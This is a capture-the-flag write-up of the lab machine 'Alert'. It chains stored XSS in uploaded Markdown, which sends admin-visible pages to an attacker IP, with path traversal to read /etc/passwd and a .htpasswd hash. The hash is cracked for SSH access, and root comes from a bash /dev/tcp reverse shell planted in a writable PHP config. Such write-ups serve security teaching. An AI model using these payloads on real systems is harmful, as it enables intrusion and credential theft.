





# Alert

Today we are taking a stab at the currently live box "Alert"

```
$ sudo nmap -sV -sC 10.10.11.44

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 14:39 CET
Nmap scan report for 10.10.11.44
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

We have just a pair of ports available:

- 22 running SSH
- 80 running Apache

We usually need a form of credentials to get access to the machine through SSH, so we'll start with the Apache server on port 80. If we open `http://10.10.11.44` in our browser, we'll be met with a "Page Not Found". Just as we can read in the `nmap` report, the Apache server issues a redirect to `alert.htb`. To make this work in our browser, we'll need to modify the `/etc/hosts` file. This is where the browser comes to "resolve" a hostname to an IP address before heading to the nearest DNS server if it ends up empty handed:

```
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.44 alert.htb
```

Now that the browser is able to "resolve" the hostname `alert.htb` to an IP address, we should be able to visit the page in our browser:


Let's summarize what we have here, on top of the "Markdown Viewer" page shown above:

- About Us
  
- Contact Us
  
- Donate
  

Note that all of these pages are using a `?page=` query parameter to specify the page to load. This might be vulnerable to a file inclusion attack. We can try this by attempting to include the `/etc/passwd` file:

```
$ curl http://alert.htb/index.php?page=../../../../etc/passwd

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Error: Page not found</h1>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

That doesn't work, it just gives us back a "Page not found". Let's move on. We can quickly eliminate the "Donate" page from our list as the number input on that page does not seem to do anything. Let's try to upload some (nasty) Markdown file:

```
$ cat hello.md

# HELLO WORLD
<script>
alert("HEY!")
</script>
```

When we upload this, we can see that the script is definitely being executed:


## More (hidden) pages

```
$ gobuster dir --url http://alert.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://alert.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 274]
/.htpasswd (Status: 403) [Size: 274]
/.hta (Status: 403) [Size: 274]
/css (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/server-status (Status: 403) [Size: 274]
/uploads (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

## Getting the messages

In order to gain access to the SSH server, we are looking for credentials. There could be file inclusion on the `?page=` parameter but

On the "About Us" page it is mentioned that a "administrator" will read the "contact" messages you send. This is a clue! Furthermore, we discovered a

```js
# My evil script!

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.8:8000/?data=" + encodeURIComponent(data));
  });
</script>
```

1. I upload this Markdown file containing a script to the web application.
   
2. Then I start a Python HTTP server on port 8000
3. I copy the "Share" link into the Contact form and press "Send"
   
4. Win!

On the Python HTTP server I receive a message:

```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.8 - - [11/Dec/2024 15:48:32] "GET /?data=%0A HTTP/1.1" 200 -
10.10.11.44 - - [11/Dec/2024 15:49:00] "GET /?data=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1" 200 -
```

This data string is URL-encoded, but nothing we can't reverse with a little CyberChef:



There is a reference to a `2024-03-10_15-48-34.txt` file, and it is being loaded using a `?file=` parameter. Maybe this one IS vulnerable to file inclusion! Let's try to load `/etc/passwd`:

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../etc/passwd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.8:8000/?data=" + encodeURIComponent(data));
  });
</script>
```

It does work! Look:



I've gone ahead and decoded this:

```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```

All the way at the bottom we find two users, `albert` and `david`. Now we just need to find a password!

I'll try another file: `/etc/apache2/sites-enabled/000-default.conf`:

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../etc/apache2/sites-enabled/000-default.conf")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.8:8000/?data=" + encodeURIComponent(data));
  });
</script>
```

And after going through the steps, we have another response at our Python listener:

```
10.10.11.44 - - [11/Dec/2024 17:11:15] "GET /?data=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

What is this blob of junk you ask? Well:

```
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

That looks better already! We find references to `statistics.alert.htb` which seems to be a subdomain on this web host. We can also see the path to the `.htpasswd` file: `/var/www/statistics.alert.htb/.htpasswd`: we'll use our exploit one last time to read this file.

We end up with just one log entry:

```
10.10.11.44 - - [11/Dec/2024 17:16:28] "GET /?data=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

We decode once more:

```
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

This looks like a password hash for the user `albert`!

## Cracking ahead

```
$ echo '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' > albert-hash.txt

$ hashid albert-hash.txt

--File 'albert-hash.txt'--
Analyzing '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
[+] MD5(APR)
[+] Apache MD5
--End of file 'albert-hash.txt'--
```

We can use John the Ripper to crack this hash! When looking up what kind of hash it is I found:

> The MD5 algorithm used by htpasswd is specific to the Apache software; passwords hashed using it will not be usable with other Web servers.

So we will need a password list that is big and juicy: we'll go with `rockyou.txt`.

```
$ john --format=md5crypt-long --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt albert-hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:00 DONE (2024-12-11 17:33) 1.818g/s 5120p/s 5120c/s 5120C/s meagan..medicina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password is `manchesterunited`! lOl!

## SSH unlocked

```
$ ssh albert@10.10.11.44
The authenticity of host '10.10.11.44 (10.10.11.44)' can't be established.
ED25519 key fingerprint is SHA256:p09n9xG9WD+h2tXiZ8yi4bbPrvHxCCOpBLSw0o76zOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.44' (ED25519) to the list of known hosts.
albert@10.10.11.44's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 11 Dec 2024 04:35:03 PM UTC

  System load:           0.08
  Usage of /:            62.3% of 5.03GB
  Memory usage:          8%
  Swap usage:            0%
  Processes:             241
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.44
  IPv6 address for eth0: dead:beef::250:56ff:fe94:8f99


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Nov 19 14:19:09 2024 from 10.10.14.23
albert@alert:~$
```

I couldn't run to the SSH server fast enough! After so much tinkering with scripts and links and URL-codings, I'm so happy to advance. First, we'll claim our well deserved user flag:

```
albert@alert:~$ ls
user.txt

albert@alert:~$ cat user.txt
b14e173fe3b87a5a085d470f9c5ee0c4
```

## Pivoting now

We'll need to try to find something new to look at in order to become root:

```
albert@alert:~$ sudo -l
[sudo] password for albert:
Sorry, user albert may not run sudo on alert.

albert@alert:~$ netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We seem to have something running on `localhost:8080`:

```
albert@alert:/home$ curl localhost:8080 -I

HTTP/1.1 200 OK
Host: localhost:8080
Date: Wed, 11 Dec 2024 16:51:45 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.24
Content-type: text/html; charset=UTF-8
```

But accessing this website in this way is pretty awkward. Fortunately, we can use SSH port forwarding:

```
$ ssh -L 8888:127.0.0.1:8080 albert@10.10.11.44
```

That works!



Where to do from here? Well, I found the place where the files of this app are stored:

```bash
albert@alert:/opt/website-monitor$ ls -l
total 84
drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates

albert@alert:/opt/website-monitor$ groups
albert management
```

As you can see we are in the right group to have write access to the `config` folder.

Inside the `config` folder we find `configuration.php` to which we have write access. If we check `index.php` inside `/opt/website-monitor`, this is the file that is executed when we visit the website, it loads `configuration.php`:

```
albert@alert:/opt/website-monitor/config$ cat configuration.php
<?php
define('PATH', '/opt/website-monitor');
?>

albert@alert:/opt/website-monitor/config$ head -n 5 ../index.php

<?php

include('config/configuration.php');
include(PATH.'/Parsedown.php');
```

We'll change `configuration.php` to include a reverse shell:

```
<?php
define('PATH', '/opt/website-monitor');

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'");
?>
```

And straight away when we reload the browser tab we get a shell in the netcat listener that I fired up beforehand:

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.44] 50204
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:~#
```

Hell yeah! Let's get that root flag:

```
root@alert:~# id
uid=0(root) gid=0(root) groups=0(root)

root@alert:~# pwd
/root

root@alert:~# ls
root.txt
scripts

root@alert:~# cat root.txt
6056a4010343f5134f007f6fbfaf6186
```
